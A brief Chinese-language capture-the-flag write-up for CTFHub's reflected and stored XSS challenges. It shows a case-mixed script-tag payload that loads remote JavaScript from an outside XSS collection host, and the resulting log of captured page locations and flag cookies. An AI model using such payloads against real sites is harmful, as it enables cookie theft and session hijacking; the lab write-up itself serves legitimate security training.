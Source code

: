 ## CTHHUB--XSS

### 反射型

![image-20240829164122690](https://gitee.com/bx33661/image/raw/master/path/image-20240829164122690.png)

> https://xssjs.com/             使用得到平台

传入链接

```
<sCRiPt sRC=//uj.ci/3e6></sCrIpT>
```

发送链接，点击按钮 **send**

![image-20240829163946547](https://gitee.com/bx33661/image/raw/master/path/image-20240829163946547.png)

```
location : http://challenge-a5c9987943fdc1f4.sandbox.ctfhub.com:10800/?name=%3CsCRiPt+sRC%3D%2F%2Fuj.ci%2F3e6%3E%3C%2FsCrIpT%3E
toplocation : http://challenge-a5c9987943fdc1f4.sandbox.ctfhub.com:10800/?name=%3CsCRiPt+sRC%3D%2F%2Fuj.ci%2F3e6%3E%3C%2FsCrIpT%3E
cookie : flag=ctfhub{91aea5c03fc2965dbac9f9ef}
```



### 存储型

操作与上面那个相似

```
<sCRiPt sRC=//uj.ci/3e6></sCrIpT>
```

得到内容：

```
location : http://challenge-9db1d31d95b8ae29.sandbox.ctfhub.com:10800/
toplocation : http://challenge-9db1d31d95b8ae29.sandbox.ctfhub.com:10800/
cookie : flag=ctfhub{042a9cccb835592d929492c0}
```



